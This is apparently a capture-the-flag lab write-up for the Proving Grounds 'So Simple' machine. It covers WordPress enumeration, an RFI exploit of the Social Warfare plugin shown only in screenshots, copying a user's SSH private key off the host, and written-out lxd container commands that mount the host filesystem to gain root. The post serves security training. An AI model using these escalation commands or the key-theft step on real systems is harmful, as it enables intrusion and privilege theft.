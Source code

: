 * * *
 ### LAB: SO SIMPLE
 ### PLATFORM: PROVING GROUNDS
* * *

- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/583ce09b-3d2e-469c-8439-628f7c7c3030)

- FFuf spotted a wordpress directory    


- Scanning with `wpscan --url <url>` for information about the wordpress site and a particular plugin caught my attention which is the `social warfare wp plugin`

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37b131e1-0088-4bc5-bb3e-5ada1bbeae4f) 
  
- `Social warfare 3.5.0` has an unauthenticated remote code execution flaw via Remote File Inclusion.I wrote an exploit for it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4bec41f2-29fa-408b-ae90-a2693dfef8bd)
  
- Now we have a stabilied shell

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d19b707b-33d6-416d-98de-a1ba6822de1f)  

### Road to PRIVESC 

- One of the user Max has a private key in his `.ssh` directory

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63442927-533b-4cb6-b500-e2c243f89549)

- We can send the file with python http.server to our machine, change permissions with `chmod 600 <id_rsa>` and ssh to max's account

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cfb16a3d-6959-4588-8fdd-de9a3a2c6afe)
  

### Privilege escalation with lxd user

- I ran `id` and discovered that his account is part of the user group
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/daa34c20-99a8-424c-a5f4-25111ffdb8b8) 
  

- I ran this bash one-liner `cat /etc/passwd | grep "lxd"` to check if lxd is a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd539238-3616-42ca-ab70-4cdb8f471882)
  

- I checked if lxd has a running process with `ps -ef | grep -i "lxd\|lxc"`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cabd4c6b-d5f4-47ff-8a40-99b855d37f38)   

- I used this commands to build an lxd image as root on the host machine

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine

- Use a directory like `/dev/shm` or `/tmp` to receive the alpine image
- Set up a python http server and send the recent image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d54e4a2-233d-4cfe-b4bd-fce90a703b06)  

- Receive it on `/tmp/` to initialize the image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4ea75f7d-8504-43fa-a3dd-801f02bc7236)
  

- Create a storage pool with `lxd init`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b4dac9c1-aef5-4e62-aa18-43286b897811)  

- Import the image with this command

       lxc image import alpine-v3.16-x86_64-20221112_0508.tar.gz --alias alpine

- List images with

      lxc image list

- Use the commands below to initialize the images in /tmp 

      lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/23511f48-5d10-481d-aa8d-f120e604ea71)
  

 - To execute the container use `lxc exec juggernaut sh`
 - Breakout with `chroot /root/mnt`,voila!!!, root accesss

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c47dde3e-73c5-4e02-a940-1630f4f613a4)


  
  

  
